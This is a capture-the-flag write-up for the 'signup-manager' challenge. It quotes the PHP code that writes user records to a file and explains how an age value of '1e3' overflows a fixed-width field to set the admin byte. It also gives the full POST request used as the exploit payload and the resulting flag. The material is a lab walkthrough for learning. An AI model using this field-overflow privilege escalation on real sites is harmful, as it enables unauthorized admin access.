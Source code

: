 
### Solution

Most important piece of code from source code is while registering a new user:
```php
function addUser($username,$password,$age,$firstname,$lastname){
    $random_hash = md5( print_r($_SERVER,true).print_r($_POST,true).date("U").microtime().rand() );
    $line = '';
    $line .= str_pad( $username,15,"#");
    $line .= $password;
    $line .= $random_hash;
    $line .= str_pad( $age,3,"#");
    $line .= str_pad( $firstname,15,"#");
    $line .= str_pad( $lastname,15,"#");
    $line .= 'N';
    $line = substr($line,0,113);
    file_put_contents('users.txt',$line.PHP_EOL, FILE_APPEND);
    return $random_hash;
}
```

The function creates a unique string by combining all the input from the user (username, password, age, firstname & lastname) into a single string and save it inside `users.txt`. The following pic depicts how the above function represents a user in the users.txt file.

![](https://i.imgur.com/fU1E5jw.png)

The goal is clear, we need to set the last byte which represents ADMIN to 'Y' instead of 'N'.

If we can insert 1-extra byte anywhere before `ADMIN` byte(last byte) and  set `lastname='NNNNNNNNNNNNNNY'` the overflow will cause the value of `ADMIN='Y'` (each value shift's 1 byte right, last byte of lastname becomes ADMIN's byte value)

Most of the user input (username, password, firstname and lastname) are correctly stripped and constrained within 15 characters. 

1 intersting property of integers in PHP is `100 === 1e2`. similary `1000 === 1e3`.

We have a limit on age to be within 3 characters and only 3 places are reserved for age in user string. So sending something like `age=1e3` will evaluate age to 1000 (length=4, thus we get 1 extra character we needed). 

So our exploit payload will have `age=1e3` and `lastname=NNNNNNNNNNNNNNY`.
```
POST /signup-manager/ HTTP/1.1
Host: hackyholidays.h1ctf.com
Content-Length: 107


action=signup&username=username007&password=password&age=1e3&firstname=firstname&lastname=NNNNNNNNNNNNNNY
```

Login with `username=username007` & `password=password` and we will be greeted with flag

> FLAG-10: flag{99309f0f-1752-44a5-af1e-a03e4150757d}
